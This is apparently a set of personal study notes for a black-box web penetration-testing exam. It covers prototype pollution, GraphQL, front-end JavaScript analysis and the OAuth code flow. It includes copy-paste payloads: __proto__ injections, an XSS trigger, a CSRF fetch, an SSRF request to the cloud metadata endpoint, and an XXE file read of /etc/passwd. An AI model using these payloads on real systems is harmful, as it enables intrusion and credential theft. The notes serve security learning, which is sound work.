


# Prototype Pollution

# Prototype Pollution Attack Strategy Guide

> [!info]  
> **Purpose**: A black‑box attack guide to identify and exploit prototype pollution in a live web application during an open‑book pen‑test exam.

---

## Quick Concept Summaries

> [!info]  
> **Prototype Pollution**: Attackers inject or override properties on JavaScript object prototypes (e.g., `Object.prototype`) via user‑controlled input, influencing application behavior globally when merged into objects.

---

## Step‑By‑Step Test Strategies

> [!tip]  
> Use this checklist sequentially to discover, confirm, and exploit prototype pollution without source code access.

1. **Input Enumeration**
    
    - Inspect all GET and POST parameters in Burp Proxy or browser network tab.
        
    - Identify endpoints accepting arbitrary JSON or query strings.
        
    - Note use of structured parameters (`settings=…`) or deep objects.
        
2. **Smoke‑Test Pollution Payloads**
    
    - Append to any URL or JSON body:
        
        ```plaintext
        ?__proto__.polluted=true
        ```
        
        or in JSON:
        
        ```json
        {"__proto__":{"polluted":true}}
        ```
        
    - Check in browser console or intercept response for side effects (e.g., new global keys).
        
3. **Sink Discovery**
    
    - Reload page with pollution payload and monitor:
        
        - DOM changes (e.g., `innerHTML` updates) via inspector.
            
        - Authorization controls (e.g., access to admin panels).
            
    - In Burp, use DOM Invader or search for keywords in responses: `innerHTML`, `eval(`, `Function(`.
        
4. **Gadget Identification**
    
    - Test common prototype‑derived flags:
        
        - `isAdmin`, `role`, `debug`, `featureEnabled`, `message`.
            
    - Append payloads targeting these fields and observe behavioral changes.
        
5. **Exploit Construction**
    
    - Combine source + gadget + sink:
        
        ```plaintext
        /dashboard?__proto__.message=<script>alert(1)</script>
        ```
        
    - For action forgery:
        
        ```html
        <script>fetch('/tasks/create',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'title=hacked',credentials:'include'});</script>
        ```
        

---

## Copy‑Paste Commands & Payloads

> [!info]  
> Standard payloads for rapid execution.

```plaintext
?__proto__.polluted=true
?constructor.prototype.polluted=true
```

```plaintext
// DOM XSS trigger
?__proto__.message=<script>alert(1)</script>
```

```json
// JSON endpoint test
{"__proto__":{"isAdmin":true}}
```

```html
<!-- Auth‑action exploit -->
<script>fetch('/tasks/create',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'title=x',credentials:'include'});</script>
```

---

## Recommended Tools & Flags

> [!tip]  
> Equip these tools and configurations for effective black‑box testing.

- **Burp Suite** (Community or Pro)
    
    - Proxy to capture parameters and JSON bodies.
        
    - Repeater for iterative payload injection.
        
- **DOM Invader** (Pro)
    
    - Enable **Prototype Pollution** in **Attack Types**.
        
    - Scan for gadgets and sinks automatically.
        
- **Browser DevTools**
    
    - Console for polling `{}.polluted` or other flags.
        
    - Inspector to trace DOM assignments (`innerHTML`).
        
- **HTTP Clients** (curl, httpie)
    
    - Batch JSON payload tests against endpoints.
        

---

## Pitfalls & Exam Hints

> [!warning]  
> Avoid these common mistakes and leverage exam‑specific shortcuts.

- **Naive Filters**: If `__proto__` is blocked, try string concatenation or nested injection:
    
    ```json
    {"pro"+"to"+"type":{"polluted":true}}
    ```
    
- **State Caching**: Clear cookies and localStorage between tests to prevent false negatives.
    
- **Content‑Type Variations**: Test both `application/json` and form‑encoded bodies for server‑side endpoints.
    
- **Limited Time**: Prioritize endpoints with deep‑merge indicators (e.g., parameter names like `settings`, `config`).
    
- **Confirmation Over Assumption**: Always verify via observable behavior (DOM change, privilege shift) rather than tool output alone.
    

---

_Last updated for black‑box web‑app penetration testing._

---


## aliases: ["Prototype Pollution Black‑Box"]  
tags: [pentest, prototype-pollution, strategy]

# Prototype Pollution Attack Strategy (Black‑Box)

> [!info]  
> **Purpose:** Structured guide for a black‑box web‑app penetration test exam.  
> **Format:** Callouts, bold, _italic_, underlined sections, tables, and Mermaid diagrams. No fluff.

---

## **1. Indicators to Spot**

> [!tip]  
> Watch for these _signatures_ in application behavior or responses:

- **Deep‑merge parameters**
    
    - Examples: `settings=…`, `config`, `options`, `prefs`
        
    - Underlying libraries often accept JSON-encoded objects.
        
- **Library Artifacts**
    
    - Response hints: `dparam`, `qs.parse`, `jQuery.extend`, `lodash.merge`
        
- **Reflective Endpoints**
    
    - UI or API echoing user inputs without strict sanitization
        
- **Arbitrary JSON Acceptance**
    
    - Endpoints accepting free-form JSON payloads
        
- **Error Patterns**
    
    - Malformed JSON or nested keys causing unusual client‑side errors
        

---

## **2. Attack Checklist**

|Step|Action|Example|
|---|---|---|
|**Parameter Recon**|Capture GET/POST parameters via Burp Proxy|`GET /dashboard?message=test``POST /tasks/create …`|
||Identify complex parameters (arrays, nested objects)|`GET /settings?config={"theme":"dark","prefs":{"grid":true}}`|
|**Smoke Tests**|Append prototype payloads|`?__proto__.polluted=true`JSON: `{"__proto":{"polluted":true}}`|
|**Reflection Verification**|Test simple reflection|`?message=test` → appears in UI|
|**Sanitization Bypass**|Test direct XSS, then pollute prototype|Direct: `?message=<script>alert(1)</script>`Pseudo: `?__proto__.message=<script>alert(1)</script>`|
|**Sink Validation**|Locate dangerous sinks (DOM, eval, auth checks)|`innerHTML`, `eval()`, `if(user.isAdmin)`|
|**Exploit Crafting**|Combine source+gadget+sink|`/dashboard?__proto__.message=<script>alert(1)</script>`|

---

## **3. Copy‑Paste Payloads**

> [!info]  
> Rapid insertion payloads for different contexts.

```plaintext
// Confirm pollution
?__proto__.polluted=true
?constructor.prototype.polluted=true

// DOM XSS trigger
?__proto__.message=<script>alert(1)</script>

// JSON endpoint
{"__proto__":{"isAdmin":true}}

// Auth‑action CSRF
<script>
  fetch('/tasks/create', {
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'title=hacked&status=pending',
    credentials:'include'
  });
</script>
```

---

## **4. Tools & Techniques**

> [!tip]  
> Recommended tooling and flags.

- **Burp Suite**
    
    - **Proxy**: capture all parameters
        
    - **Repeater**: iterative payload delivery
        
    - **Intruder**: automated injection
        
- **DOM Invader (Pro)**
    
    - Enable _Prototype Pollution_ under **Attack Types**
        
    - Automate gadget/sink discovery
        
- **Browser DevTools**
    
    - `console.log({}.polluted)` to verify
        
    - **Breakpoints** on `innerHTML`, `eval`
        
- **HTTP Clients**
    
    - `curl`, `httpie` for scripted JSON tests
        

---

## **5. Pitfalls & Exam Hints**

> [!warning]  
> Common pitfalls and time‑saving hints.

- **Literal Filters**: if `__proto__` blocked, use string concatenation:
    
    ```json
    {"pro"+"to"+"type":{"polluted":true}}
    ```
    
- **State Caching**: clear `localStorage`, cookies between tests
    
- **Content Types**: test both `application/json` and form‑encoded
    
- **Prioritization**: focus on endpoints with deep‑merge hints (`settings`, `config`)
    
- **Validation**: confirm via behavior change, not just server errors
    

---

## **6. Attack Flow Diagram**

> [!diagram]  
> Sequence of a prototype pollution exploitation.



---


---

# GraphQL

## tags: [pentest, graphql, strategy]  
aliases: ["GraphQL Black‑Box Strategy"]

# **GraphQL Attack Strategy Guide (Black‑Box)**

> [!info]  
> **Purpose:** Professional Obsidian note for an open‑book, black‑box GraphQL web‑app penetration test. Structured as technical documentation with callouts, tables, and diagrams.

---

## **1. Indicators & Signals**

> [!tip]  
> Identify behaviors or responses that _strongly suggest_ GraphQL is in use and may reveal vulnerability points.

- **Single Endpoint**: Requests to `/graphql`, `/graphiql`, `/playground`.
    
- **Introspection Enabled**: `__schema`, `__type` queries return JSON.
    
- **Complex Query Parameters**: JSON bodies with `query` and `variables` fields.
    
- **Frequent Polling**: UI polling via GraphQL for data updates (e.g., live chat).
    
- **Error Messages**: Responses containing GraphQL‑style errors (`Cannot query field`, `Validation error`).
    

---

## **2. Attack Checklist**

|Step|Action|Example Payload|
|---|---|---|
|**Endpoint Discovery**|Fuzz common GraphQL paths|`/graphql`, `/v1/graphql`, `/dev/graphql`|
|**Introspection Test**|Send basic introspection query|`{ __schema { types { name } } }`|
|**Schema Enumeration**|Use `__type(name:"User")` if `__schema` is filtered|`{ __type(name:"User"){fields{name}} }`|
|**Depth & Complexity**|Test nested queries or heavy lists|`{ posts { author { email password } } }`|
|**Auth & ACL Checks**|Query or mutate with IDOR/BOLA patterns|`query{ user(id:2){id,name,email} }`|
|**Batching & DoS**|Send array of queries/mutations in one request to bypass limits|`[{"query":"mutation{login(...)|

---

# Out-of-Band Attacks

_No direct notes provided for this section yet._

# Front-End JavaScript Analysis

> [!summary]  
> **Purpose** — Cheat‑sheet for rapidly dissecting browser‑based JavaScript during exams or CTFs: set up the environment, hit the right breakpoints, unmask minified/obfuscated code, bypass weak client‑side controls, and document findings with repeatable payloads.

---

## 1  Environment Setup

```bash
# Lab bootstrap
unzip awh-frontend-lab-1.zip
cd awh-frontend-lab-1
npm i && node app.js          # serve on :3000
code .                        # open VS Code
```

|Action|VS Code|Chrome DevTools|
|---|---|---|
|Editor|Source read‑through|Live breakpoints / console|
|Beautify|`Shift+Alt+F` or Prettier|Resource Saver plugin|
|Diff|Compare `main.js` vs `main.min.js`|n/a|

---

## 2  File & Asset Recon

|Path|What to look for|
|---|---|
|`/js/`|Core JS, possible duplicates in `/css/` or inline `<script>`|
|`/css/`|Hidden JS in CTFs|
|`index.ejs / html`|Script selector — swap to readable build|

---

## 3  Dynamic Debugging Workflow

1. **Dock DevTools left ⇔ app right** for side‑by‑side watch.
    
2. **Sources ▶ Event Listener Breakpoints** → keyboard, mouse, timer.
    
3. **Manual breakpoints** on suspicious functions (`addTodo`, `escapeHTML`).
    
4. **Console / Watch panel** to inspect or mutate vars at runtime.
    
5. **Persist log** (`⋮` ▶ Settings ▶ Console ▶ Preserve log).
    

> [!tip]  
> Start from UI action → follow the call stack down, not the other way around.

---

## 4  Breakpoint Reference

|Type|Use‑case|Example|
|---|---|---|
|Event Listener|Trigger‑driven logic|`keydown`, `setInterval`|
|XHR/fetch|API tampering|Pause on request start|
|DOM Mutation|Client‑side templating|Detect innerHTML sinks|
|Conditional|Bypass loops|`i === 42`|

---

## 5  Console & Watch Quick‑wins

```js
// Real‑time encode bypass check
JSON.parse(localStorage.getItem('todos'))

// Patch function at runtime
escapeHTML = x => x  // disable sanitiser
```

> [!info]  
> **Watch panel** persists variables across breakpoints—no need to re‑type.

---

## 6  Asset Extraction & Beautification

```text
1. Install “Chrome Resource Saver”.
2. Click Save → exports localhost_3000/ bundle.
3. Re‑open `main.js` beautified in VS Code.
```

> [!important]  
> Beautify first, **de‑minify** only if source maps missing.

---

## 7  Minification vs Obfuscation

|Feature|Minified|Obfuscated|
|---|---|---|
|Goal|Faster load|Hide logic|
|Readability|Low|Very low|
|Dead code|No|Yes|
|Eval / packers|Rare|Common|
|Reversal speed|Minutes|Hours+|

---

## 8  De‑obfuscation Tactics

1. **Beautify (`beautifier.io`, VS Code)** to restore formatting.
    
2. Scan for `eval(function(p,a,c,k,e,d)` → packed payload.
    
3. **de4js / matthewfl.com/unpacker** → unpack.
    
4. **Replace** obfuscated vars in console to reveal runtime values.
    
5. **Dynamic trace** > static grep when time‑boxed.
    

---

## 9  Packed Code Attack Flow



---

## 10  Capstone Bypass (LocalStorage Gate)

|Stage|Goal|Example Payload|
|---|---|---|
|1 Locate key|Find check in code|`localStorage.getItem("someKey")`|
|2 Decode value|Reveal `subscriber`|`String.fromCharCode(...array)`|
|3 Inject|Satisfy condition|`localStorage.setItem("subscriber","subscriber")`|
|4 Reload|Access article|F12 → Refresh|

---

## 11  Payload Library

> **Copy‑ready blocks** — adapt domain/IP as needed.

### Introspection (GraphQL)

```graphql
{
  __schema {
    types { name fields { name } }
  }
}
```

### SSRF

```bash
curl -X POST "http://victim.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/"
```

### XXE

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<upload>
  <data>&xxe;</data>
</upload>
```

### Batching / Brute‑force (GraphQL)

```graphql
[
  { "query":"{user(id:\"1\"){email}}" },
  { "query":"{user(id:\"2\"){email}}" }
]
```

### IDOR probe

```http
GET /api/users/1337/profile HTTP/1.1
X-Auth-Token: attacker
```

---

## 12  Step‑by‑Step Checklist

-  Start local server / open target URL
    
-  Dock DevTools; enable **Preserve log**
    
-  Enumerate **Sources** panel; search `eval(` and `innerHTML`
    
-  Add **Event Listener** breakpoints (keyboard / click / timer)
    
-  Hit UI action; pause execution
    
-  Use **Console** to inspect / patch functions
    
-  Dump **localStorage / cookies** for client‑side auth clues
    
-  Extract & beautify assets with Resource Saver
    
-  Identify minified ↔ obfuscated sections; unpack if packed
    
-  Document findings, payloads, remediation
    

---

## 13  Tools & Alternatives

|Category|Primary|Alternatives|
|---|---|---|
|Browser debug|Chrome DevTools|Firefox DevTools, Edge|
|Asset dump|Resource Saver|`wget --mirror`, Burp Suite Extender|
|Beautify|beautifier.io|unminify.com, JSNice|
|Unpack|de4js|matthewfl unpacker|
|Decode|CyberChef|base64 cli, `xxd`|
|Blind OOB|Interact.sh|Burp Collaborator, Webhook.site|

---

## Key Takeaways

> [!important]
> 
> - Target **runtime behaviour first**; breakpoints expose truth faster than static diff.
>     
> - Minified ≠ secure — unminify and read. Obfuscation slows you, not stops you.
>     
> - Never trust client‑side checks (length, Base64, localStorage). Replicate, then bypass.
>     
> - Keep a personal payload crib‑sheet (see § 11) for rapid exploitation across labs.
>     

_Last updated: {{DATE:YYYY-MM-DD}}_

---

# OAuth 2.0


# OAuth 2.0 Authorization Code Flow (Simplified Walkthrough)

## Overview

This note explains the OAuth 2.0 **Authorization Code Flow** in a simplified and digestible way. It outlines each step, explains key terms like `authorization code` and `state`, and includes a high-level visual reference.

> [!info]
> OAuth lets a user log in to one app (the Client) by authenticating through another trusted app (the Provider), like Google.

---

## 1. User Clicks “Login with OAuth”

The **client app** (e.g., `localhost:3001`) redirects the user’s browser to the **OAuth provider** (e.g., `localhost:3000`) using a URL like:

```

/authorize?client_id=...&redirect_uri=...&state=abc123&scope=profile

```

This starts the login flow. The user is sent to the provider’s authorization endpoint.

> [!note]
> The `state` value is a random string generated by the client app to protect against CSRF attacks. It must be saved by the client and validated later.

---

## 2. User Grants Consent

The **OAuth provider** authenticates the user (if not already logged in) and then shows a **consent screen** asking the user to approve access to their information (e.g., profile and email).

If the user approves, the provider prepares to redirect back to the client.

---

## 3. Provider Redirects Back with Authorization Code

After the user consents, the provider redirects the browser to the `redirect_uri` with:

```

/callback?code=xyz123&state=abc123

```

> [!tip]
> `code` is the short-lived authorization code.  
> `state` must match the original value sent by the client to confirm the request is valid.

---

## 4. Token Exchange (Backend)

The **client’s backend server** (not the browser) takes the authorization code and sends a request to the provider to exchange it for tokens:

```

POST /oauth/token  
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code  
client_id=...  
client_secret=...  
code=xyz123  
redirect_uri=...

````

---

## 5. Provider Responds with Tokens

If the request is valid, the provider sends back a response like:

```json
{
  "access_token": "abc123",
  "id_token": "jwt...",
  "token_type": "Bearer",
  "expires_in": 3600
}
````

> [!note]  
> `access_token` allows the client app to access protected APIs.  
> `id_token` contains information about the user (used in OpenID Connect).  
> These tokens are never exposed in the browser.

---

## 6. Client Logs User In

The client app uses the `access_token` to fetch user info and starts a session. The user is now logged in.

---

## Flow Recap

```
[User] ➝ Clicks Login
  ↓
[Client App] ➝ Redirects to ➝ [OAuth Provider]
                           ↳ Consent Screen
                           ↳ Redirect back with ?code + ?state
[Client Backend] ➝ Sends code ➝ [OAuth Provider]
                                 ↳ Returns tokens
[Client App] ➝ Logs in user
```

---

## Key Concepts

|Term|Meaning|
|---|---|
|`client_id`|Identifies the app requesting access|
|`redirect_uri`|Where to send the user after consent|
|`authorization code`|Temporary code used to securely get tokens|
|`access_token`|Token for API access|
|`state`|CSRF protection value to validate the flow|
|`scope`|What permissions the app is requesting|

---

## Summary

> [!summary]  
> OAuth 2.0 Authorization Code Flow allows a user to log in via a trusted provider.  
> The flow is secure because the access tokens are never exposed in the browser, and CSRF protection is enforced using the `state` parameter.


---

# Web Cache Poisoning

_No direct notes provided for this section yet._

